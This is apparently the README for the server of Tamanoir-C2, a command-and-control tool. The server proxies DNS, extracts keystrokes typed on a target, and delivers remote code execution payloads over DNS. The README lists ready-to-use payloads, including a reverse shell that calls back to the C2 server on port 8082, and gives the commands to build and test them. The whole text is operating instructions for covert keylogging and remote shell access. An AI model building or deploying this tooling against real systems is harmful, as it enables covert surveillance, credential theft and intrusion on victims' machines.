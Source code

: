 # Tamanoir-C2 server

[Back to Readme](../../README.md)

Tamanoir-C2 (Command and Control) server's  purpose is multiple: 
- act as a dns proxy
- extract typed keystrokes from target
- transmit selected RCE( Remote Code Execution) payloads to target



- ⚠ make sure port 53 is available `sudo systemctl stop systemd-resolved` can help


## Architecture
It is composed of 3 servers:
| type | default port | goal|
|----------|----------|----------|
| DNS  | 53 | handle dns requests from targets and rce payloads transmission |
| TCP  | 8082 | handle remote shell sessions |
| GRPC  | 50051 | handle communication with tui clients |



## 🔥 Available Rce payloads
Tamanoir comes with ready-to-use payloads :


| name | description | comments | 
|----------|----------|----------|
| hello |  prints a cute tamanoir to tamanoir stdout  | hello-world payload, demonstrate how a big payload can be transmitted by chunks to target|
| xeyes | open `xeyes` program on target gui | demonstrate how to execute simple shellcode. Only works if target uses x11 |
| reverse-shell | open a tcp-shell communicating with tamanoir-c2 | needs to specify IP var when building (see below) 


### 📍 payloads location: ./assets/payloads


## 🔧 Builder
 
 `tamanoir-c2 rce build`

- will build and strip provided payloads

| name long| name short | description |  default|
|----------|----------|----------|----------|
| --target_arch| -t | x86_64 or aarch64  |  x86_64 |
| --crate_path | -c | path to payload crate (see ./assets/payloads) for examples | - |
| --engine | -e |cross build engine,if needed (docker or podman)  | docker |
| --build-vars | -b | key=value, space-separated env vars required for your payload, if needed  | - | 

- payload output: `~/.tamanoir/bins`
- ⚠ needs [cross](https://github.com/cross-rs/cross) for cross-compilation if target arch != current arch
- ⚠ max payload size (once compiled and stripped) = 4096 bytes

#### example: build reverse-shell 
`tamanoir-c2  rce  build  -c ./assets/payloads/reverse-shell  -b "IP=<tamanoir-c2-ip>" -t x86_64`
will compile `reverse-shell` payload:
- for x86_64 target arch 
- use cross to build it if current arch isn't x86_64
- will establish shell session with \<tamanoir-c2-ip>:8082



## Tester
 `tamanoir-c2 rce test -b <path-to-your-payload-binary>`
- test your payload (locally)
- ⚠ path needs to be absolute

## ⚠ Limitations
Cross compilation is only available  for `aarch64` ->  `x86_64` with gcc


